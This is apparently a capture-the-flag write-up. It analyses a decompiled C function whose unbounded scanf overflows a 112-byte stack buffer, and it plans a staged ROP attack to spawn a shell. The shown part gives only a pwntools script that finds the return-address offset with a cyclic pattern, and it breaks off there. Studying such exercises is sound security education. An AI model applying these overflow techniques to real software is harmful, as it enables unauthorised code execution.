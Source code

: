 The main logic seems to be in the `do_stuff` function
```C
void do_stuff(void)

{
  char cVar1;
  undefined local_89;
  char local_88 [112];
  undefined8 local_18;
  ulong local_10;
  
  local_18 = 0;
  __isoc99_scanf("%[^\n]",local_88);
  __isoc99_scanf(&DAT_0040093a,&local_89);
  for (local_10 = 0; local_10 < 100; local_10 = local_10 + 1) {
    cVar1 = convert_case((int)local_88[local_10],local_10);
    local_88[local_10] = cVar1;
  }
  puts(local_88);
  return;
}
```

The function uses `scanf` to read an unlimited amount of characters into the `local_88` buffer of length `112`.  
This allows us to overflow the buffer and perform a [ROP attack]((https://en.wikipedia.org/wiki/Return-oriented_programming)).

Ultimately we want to execute `system(/bin/sh)` to get a shell. But this will be done in stages.

### Stage 0 - Identify the offset to the return address

The first step in our exploitation is to find the offset to the return address of the `do_stuff` function.  
If we send a specific sequence of characters that is a [de Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence) we can easily calculate the offset to the return address.

We will use [pwntools](https://docs.pwntools.com/en/stable/index.html) with the `cyclic` function that generates a de Bruijn sequence and then the `cyclic_find` function will calculate the offset for us.

```python
#!/usr/bin/env python3

from pwn import *

exe = context.binary = ELF("./vuln_patched", checksec=False)

# Set output level (critical, error, warning, info (default), debug)
context.log_level = "info"

PROMPT = b'WeLcOmE To mY EcHo sErVeR!\n'

def find_offset(payload):
    # Launch process
    p = process([exe.path])
    # Send the payload
    p.sendlineafter(PROMPT, payload)
    # Wait for the process to crash
    p.wait()
    # Read pattern from the coredump file and then print it
    pattern = p.corefile.read(p.corefile.sp, 4).decode()
    log.info(f"4-byte pattern is: {pattern}")
    # Calculate the offset and then print it
    offset = cyclic_find(pattern)  
    log.info(f"Offset is: {offset}")
```